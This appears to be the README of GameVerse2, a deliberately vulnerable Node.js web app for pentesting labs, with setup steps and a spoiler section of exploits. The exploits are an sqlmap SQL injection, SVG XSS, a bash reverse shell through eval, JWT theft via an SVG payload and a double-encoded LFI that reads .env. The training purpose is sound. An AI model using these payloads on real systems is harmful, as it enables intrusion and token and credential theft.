 # GameVerse 2

GameVerse2 is a deliberately vulnerable web application built with Node.js and SQLite.  
It’s designed for pentesting labs, security education, and CTF-style training.

> Do not deploy this server to a production or public environment.

---

## Features

- User authentication with JWT
- SQLite database
- File upload
- Basic forum / comment system
- Deliberately insecure code for hands-on security training

---

## Getting Started

### 1. Clone the repository

```bash
git clone https://github.com/your-org/gameverse2.git
cd gameverse2
```

---

### 2. Start with Node.js

> Make sure you have Node.js 18+ and npm installed.

#### Install dependencies:

```bash
npm install
```

#### Start the server:

```bash
node server.js
```

The server will run on [http://localhost:3333](http://localhost:3333)

---

### 3. Start with Docker

> Recommended for clean lab environments and to easily persist the database.

#### Build the image:

```bash
docker build -t gameverse2 .
```

#### Start the container (with database persistence):

```bash
docker run -p 3333:3333 -v $(pwd)/gameverse.db:/home/appuser/app/gameverse.db gameverse2
```

---

## Ports

- Default HTTP port: **3333**

---

<details>
  <summary>🕵️ <strong>Vulnerabilities (spoilers!)</strong></summary>

### SQLi in `/users`
Example with sqlmap:
```bash
sqlmap -u "10.3.10.182:3333/users/?q=*" --headers="Authorization: Bearer <JWT>" --code 200 --tables --tamper=space2comment --risk 3 --level 5
```

---

### XSS via avatar URL (using `<object>`)
Create SVG:
```xml
<svg xmlns="http://www.w3.org/2000/svg">
  <script>alert(1)</script>
</svg>
```
Embed the SVG like this:
```html
<object data="uploaded.svg" type="image/svg+xml"></object>
```

---

### Eval-based plugin RCE for admins
```js
require('child_process').exec('bash -c "bash -i >& /dev/tcp/localhost/4444 0>&1"');
```

---

### Path traversal against plugins
```plaintext
Upload .js outside plugins using ../ in the path – see the LFI example below.
```

---

### JWT exfiltration via XSS
```xml
<svg>
  <animate onend="new Image().src='//localhost:4444/jwt?d='+encodeURIComponent(localStorage.getItem('jwtToken'))" dur="1s" attributeName="x"/>
</svg>
```

---

### Plaintext passwords in the database
```bash
sqlite3 gameverse.db
-- view all users and passwords in plaintext!
```

---

### LFI in `/images`
```plaintext
/images?path=%252e%252e%252fconfig%252fdev%252f.env
```
(Double URL-encode – `../config/dev/.env`)
</details>